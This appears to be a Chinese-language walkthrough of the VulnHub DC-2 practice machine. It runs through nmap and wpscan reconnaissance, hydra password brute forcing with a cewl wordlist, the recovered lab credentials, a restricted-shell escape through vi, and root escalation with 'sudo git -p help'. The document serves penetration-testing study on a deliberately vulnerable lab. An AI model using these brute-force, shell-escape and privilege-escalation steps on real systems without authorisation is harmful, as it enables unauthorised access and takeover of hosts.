



# DC-2靶机

- [参考](https://www.cnblogs.com/nanlu/p/11347321.html)

- [学习](https://www.freebuf.com/column/208918.html)

- [下载](https://www.vulnhub.com/entry/dc-2,311/)

> 前言



所以在kali下要将hosts文件按照要求进行设置，ip为扫描出来靶机的ip，在命令行输入命令vi /etc/hosts进行添加，设置如下图所示：


在hosts文件里添加：192.168.31.53 dc-2 #把ip换成自己的

## 信息收集

```
nmap -sP 192.168.31.0/24
```
发现靶场 I P为：192.168.31.53

```
🎈root@kali:~# nmap -sT -sV -T5 -A -p- 192.168.31.53
Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-03 22:20 EST
Nmap scan report for 192.168.31.53
Host is up (0.00061s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Did not follow redirect to http://dc-2/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
7744/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u7 (protocol 2.0)
| ssh-hostkey: 
|   1024 52:51:7b:6e:70:a4:33:7a:d2:4b:e1:0b:5a:0f:9e:d7 (DSA)
|   2048 59:11:d8:af:38:51:8f:41:a7:44:b3:28:03:80:99:42 (RSA)
|   256 df:18:1d:74:26:ce:c1:4f:6f:2f:c1:26:54:31:51:91 (ECDSA)
|_  256 d9:38:5f:99:7c:0d:64:7e:1d:46:f6:e9:7c:c6:37:17 (ED25519)
MAC Address: 08:00:27:CE:07:B2 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.61 ms 192.168.31.53

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.79 seconds
```

访问靶机 80 网页


发现上面就写着 flag 打开看看呗

```

Flag

Flag 1:

Your usual wordlists probably won’t work, so instead, maybe you just need to be cewl.

More passwords is always better, but sometimes you just can’t win them all.
```

> 给出的提示是：需要使用cewl工具破解密码，用一个身份登录后，能找到下一个flag。

对目标靶场网页进行目录爆破 在此鸣谢 
语冰提供的[字典](https://github.com/No-Github/AboutSecurity/tree/master/%E5%AD%97%E5%85%B8)

发现了该靶场的后台地址 `http://dc-2/wp-login.php`


在freebuf的文章中发现 扫描wordpress的账户的一个工具是wpscan，wpscan工具可以扫描出后台登录的用户名还可以爆破密码。接下来，使用wpscan进行扫描用户名。

使用默认扫描：

```
wpscan --url dc-2
wpscan --url dc-2
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.7.5
                               
       @_WPScan_, @ethicalhack3r, @erwan_lr, @_FireFart_
_______________________________________________________________

[i] Updating the Database ...
[i] Update completed.

[+] URL: http://dc-2/
[+] Started: Mon Feb  3 22:59:13 2020

Interesting Finding(s):

[+] http://dc-2/
 | Interesting Entry: Server: Apache/2.4.10 (Debian)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] http://dc-2/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access

[+] http://dc-2/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] http://dc-2/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 4.7.10 identified (Insecure, released on 2018-04-03).
 | Found By: Rss Generator (Passive Detection)
 |  - http://dc-2/index.php/feed/, <generator>https://wordpress.org/?v=4.7.10</generator>
 |  - http://dc-2/index.php/comments/feed/, <generator>https://wordpress.org/?v=4.7.10</generator>

[+] WordPress theme in use: twentyseventeen
 | Location: http://dc-2/wp-content/themes/twentyseventeen/
 | Last Updated: 2019-05-07T00:00:00.000Z
 | Readme: http://dc-2/wp-content/themes/twentyseventeen/README.txt
 | [!] The version is out of date, the latest version is 2.2
 | Style URL: http://dc-2/wp-content/themes/twentyseventeen/style.css?ver=4.7.10
 | Style Name: Twenty Seventeen
 | Style URI: https://wordpress.org/themes/twentyseventeen/
 | Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a fo...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.2 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://dc-2/wp-content/themes/twentyseventeen/style.css?ver=4.7.10, Match: 'Version: 1.2'

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:00 <============> (21 / 21) 100.00% Time: 00:00:00

[i] No Config Backups Found.

[!] No WPVulnDB API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 50 daily requests by registering at https://wpvulndb.com/users/sign_up. 

[+] Finished: Mon Feb  3 22:59:19 2020
[+] Requests Done: 67
[+] Cached Requests: 5
[+] Data Sent: 12.583 KB
[+] Data Received: 14.482 MB
[+] Memory used: 218.662 MB
[+] Elapsed time: 00:00:05
```
> 记得 领取 wpscan的API 不然会获取不到信息

发现三个用户名 ：admin tom jerry (猫和老鼠？)


使用hydra及cewl爬取的密码字典及自己的用户名字典进行暴力破解，破解出两个用户名，分别是jerry和tom，jerry密码是adipiscing，tom的密码是parturient，分别使用这两个个用户名进行登录。

使用tom登陆后 发现并无可利用信息。


尝试使用 jerry登录 


成功发现 flag2 (jerry:Tom You're a brother!)



```
Flag 2:
If you can't exploit WordPress and take a shortcut, there is another way.

Hope you found another entry point.
```

登陆到靶场中看看jerry里有啥


发现了flag4.txt文件 flag3 去哪儿了？打开查看里面的信息，给出的提示是，得到这个flag还没有结束，还差最后一个最重要的flag，需要继续git才可以得到，所以接下来需要到git提权。


忽然想到拿tom账号登陆一下 尝试之后 发现 flag3 原来在这里


尝试使用vi 发现可以打开flag3，但是没有有用的信息，但是使用vi命令编辑一个新的文件时可以进行绕过。

或使用下方法：
```
#新建一个vi shell.txt   //在里边输入
: set shell =/bin/sh
:shell
#就可以了
```

- **flag3**


但是到了后面看到大佬的笔记发现，其实是登陆tom的账号然后使用 vi 得到sh权限


在vi命令中，设置shell可以进行绕过，在进行导入export PATH=/usr/sbin:/usr/bin:/sbin:/bin，成功绕过后（绕过rbash可以借鉴freebuf中的文章：Linux Restricted Shell绕过技巧总结），将用户换成jerry，进行git提权。


```
vi text

$pwd
/home/tom
export PATH=/usr/sbin:/usr/bin:/sbin:/bin
su jerry
```

将用户换成jerry，进行git提权。


通过git提权，得到最后的flag
```
sudo git -p help

!/bin/sh
cd --
cd /
ls
cat final-flag.txt
```




## 总结

该靶场大致要点为： 
- wpscan工具使用
- rbash 逃逸并提权
- 学会 git 提权

更新笔记：
- 渗透工具 
- 提权骚操作